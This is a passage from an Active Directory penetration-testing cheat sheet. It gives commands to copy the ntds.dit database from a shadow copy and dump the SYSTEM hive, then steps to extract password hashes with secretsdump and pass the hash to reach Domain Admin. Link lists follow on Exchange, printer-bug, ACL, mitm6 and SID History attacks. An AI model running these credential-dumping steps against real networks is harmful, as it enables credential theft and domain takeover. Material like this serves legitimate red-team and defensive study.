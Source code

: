 Use the functionality of the dlls to copy the ntds.dit database file from the shadow copy to a location of our choice

```text
Copy-FileSeBackupPrivilege w:\windows\NTDS\ntds.dit c:\<PathToSave>\ntds.dit -Overwrite
```

Dump the SYSTEM hive

```text
reg save HKLM\SYSTEM c:\temp\system.hive
```

3\) Using smbclient.py from impacket or some other tool we copy ntds.dit and the SYSTEM hive on our local machine. 4\) Use secretsdump.py from impacket and dump the hashes. 5\) Use psexec or another tool of your choice to PTH and get Domain Admin access.

### Abusing Exchange

* [Abusing Exchange one Api call from DA](https://dirkjanm.io/abusing-exchange-one-api-call-away-from-domain-admin/)
* [CVE-2020-0688](https://www.zerodayinitiative.com/blog/2020/2/24/cve-2020-0688-remote-code-execution-on-microsoft-exchange-server-through-fixed-cryptographic-keys)
* [PrivExchange](https://github.com/dirkjanm/PrivExchange) Exchange your privileges for Domain Admin privs by abusing Exchange

  \*\*\*\*

### **Weaponizing Printer Bug**

* [Printer Server Bug to Domain Administrator](https://www.dionach.com/blog/printer-server-bug-to-domain-administrator/)
* [NetNTLMtoSilverTicket](https://github.com/NotMedic/NetNTLMtoSilverTicket)

  \*\*\*\*

### **Abusing ACLs**

* [Escalating privileges with ACLs in Active Directory](https://blog.fox-it.com/2018/04/26/escalating-privileges-with-acls-in-active-directory/)
* [aclpwn.py](https://github.com/fox-it/aclpwn.py)
* [Invoke-ACLPwn](https://github.com/fox-it/Invoke-ACLPwn)

  \*\*\*\*

### **Abusing IPv6 with mitm6**

* [Compromising IPv4 networks via IPv6](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)
* [mitm6](https://github.com/fox-it/mitm6)

  \*\*\*\*

### **SID History Abuse**

_What is this?: If we manage to compromise a child domain of a forest and_ [_SID filtering_](https://www.itprotoday.com/windows-8/sid-filtering) _isn't enabled \(most of the times is not\), we can abuse it to privilege escalate to Domain Administrator of the root domain of the forest. This is possible because of the_ [_SID History_](https://www.itprotoday.com/windows-8/sid-history) _field on a kerberos TGT ticket, that defines the "extra" security groups and privileges._
